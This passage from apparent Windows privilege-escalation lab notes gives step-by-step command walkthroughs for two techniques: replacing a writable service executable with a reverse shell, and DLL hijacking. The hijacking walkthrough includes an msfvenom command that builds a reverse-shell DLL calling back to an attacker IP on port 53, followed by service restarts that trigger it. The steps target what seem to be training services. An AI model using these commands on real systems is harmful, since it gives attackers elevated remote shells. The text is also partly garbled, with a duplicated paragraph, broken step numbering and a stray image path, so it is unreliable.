 ```bash
```

## 4. Insecure Service Executables

If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable if you are exploiting this in a real system

### Privilege Escalation
```bash
Run winPEAS to check for service misconfigurations:
> .\winPEASany.exe quiet servicesinfo
2. Note that the “filepermsvc” service has an executable which appears to be
writable by everyone. We can confirm this with accesschk.exe:
> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
3. Create a backup of the original service executable:
> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp 
Copy the reverse shell executable to overwrite the service executable:
> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
5. Start a listener on Kali, and then start the service to trigger the exploit:
> net start filepermsvc
```

### 5. DLL Hijacking
A more common misconfiguration that can be used to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searches for DLLs in. Unfortunately, initial detection of vulnerable services is difficult, and often the entire process is very manual.
A more common misconfiguration that can be used to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the
PATH that Windows searches for DLLs in. Unfortunately, initial detection of vulnerable services is difficult, and often the entire process is very manual.

```bash
Use winPEAS to enumerate non-Windows services:
> .\winPEASany.exe quiet servicesinfo
2. Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:
> .\accesschk.exe /accepteula -uvqc user dllsvc
3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We
can confirm this manually:
> sc qc dllsvc
4. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.
5. Add a new filter on the Process Name matching dllhijackservice.exe.
6. On the main screen, deselect registry activity and network activity.
7. Start the service:
> net start dllsvc
8. Back in Procmon, note that a number of “NAME NOT
FOUND” errors appear, associated with the hijackme.dll file.
9. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.
10. On Kali, generate a reverse shell DLL named hijackme.dll:
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o hijackme.dll
11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:
> net stop dllsvc
> net start dllsvc

```
